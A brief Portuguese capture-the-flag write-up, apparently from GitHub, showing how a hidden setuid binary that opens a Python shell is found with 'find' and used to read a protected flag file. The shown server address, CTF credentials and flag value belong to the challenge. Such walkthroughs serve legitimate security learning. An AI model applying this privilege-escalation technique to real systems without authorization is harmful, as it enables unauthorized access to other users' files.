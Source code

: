 Exploit 1
=========

### Desc:

178.63.58.69 3016
usr: ctf, pass: canyoudoit
flag in /home/flag/flag.txt

### Getting the flag:

Acessando o servidor era possível notar o arquivo `flag.txt` no home do usuário `flag`,
tendo o mesmo como owner e as devidas permissões para que outro usuário não possa lê-lo.

Procurando por outros arquivos de tal usuário, notei um suspeito (o último na lista abaixo).

```
$ find / -user flag 2> /dev/null | head -n6
/var/spool/mail/flag
/var/spool/mail/ctf
/var/run/screen/S-ctf
/var/run/screen/S-flag
/var/tmp/yum-ctf-NJ4ziJ
/var/tmp/...
```

Verificando do que se trata...

```
$ file /var/tmp/...
/var/tmp/...: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, stripped
```

Interessante, vamos rodar (não é minha máquina mesmo, rs)

```
$ /var/tmp/...
Python 2.6.6 (r266:84292, Jan 22 2014, 09:37:14)
[GCC 4.4.7 20120313 (Red Hat 4.4.7-4)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
```

Que beleza, era tudo que precisava, agora é só ler o arquivo, visto que tenho permissão para isso.

```
>>> open('/home/flag/flag.txt').read()
'76a2173be6393254e72ffa4d6df1030a\n'
```
